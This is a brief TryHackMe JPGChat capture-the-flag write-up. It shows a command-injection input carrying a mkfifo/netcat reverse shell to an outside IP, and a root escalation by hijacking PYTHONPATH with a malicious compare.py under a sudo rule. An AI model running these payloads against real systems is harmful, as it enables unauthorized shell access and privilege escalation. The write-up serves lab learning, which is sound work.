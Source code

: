 
## TryHackMe: JPGChat

#### Scan
- Refer to `nmap/initial*`

#### Access to
- nc EXPORT_IP PORT
  -  input command `[REPORT]`

#### Reverse Shell Payload
```
; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.26.67 1234 >/tmp/f;
```

#### Privilige Escalate
```
$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```
- Methodology
	- cd /tmp
	- export PYTHONPATH=$PWD
	- touch `compare.py`
		```python
		#!/usr/env/bin pythno3
		import os
		os.system("/bin/bash")
		```
	- sudo /usr/bin/python3 /opt/development/test_module.py

#### Resource
- https://medium.com/python-features/what-happens-behind-the-scenes-when-we-import-a-module-in-python-2775da153790s